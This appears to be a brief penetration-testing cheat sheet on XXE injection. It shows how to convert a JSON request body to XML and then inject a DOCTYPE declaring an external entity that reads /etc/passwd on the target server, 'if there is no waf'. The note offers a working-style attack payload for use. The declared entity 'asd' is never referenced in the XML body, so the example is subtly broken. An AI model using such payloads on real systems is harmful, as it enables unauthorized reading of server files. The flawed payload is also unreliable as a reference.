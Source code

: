 # XMLI METHOD

Check the Contenttype that is allowed.
	If application/json change to application/xml //or other option

Change Post data from json to xml (Conten-Type Converter Burp Extension)

## Simple Example
```
{
  "firstname":"Mike",
  "lastname":"hill",
  "Uid":"123"
 }
```
TO
```
<!--?xml version="1.0"?-->
<userinfo>
  <firstname>
  Mike
  </firstname>
  <lastname>
  hill
  </lastname>
  <Uid>
  123
  </Uid>
</userinfo>
```

If it works, try different approaches/payloads
e.g.
```
<!--?xml version="1.0"?-->
<!DOCTYPE replace [<!ENTITY asd SYSTEM "file:///etc/passwd"> ]>
<userinfo>
  <firstname>
  Mike
  </firstname>
  <lastname>
  hill
  </lastname>
  <Uid>
  123
  </Uid>
</userinfo>
```
Read the etc/passwd file if there is no waf
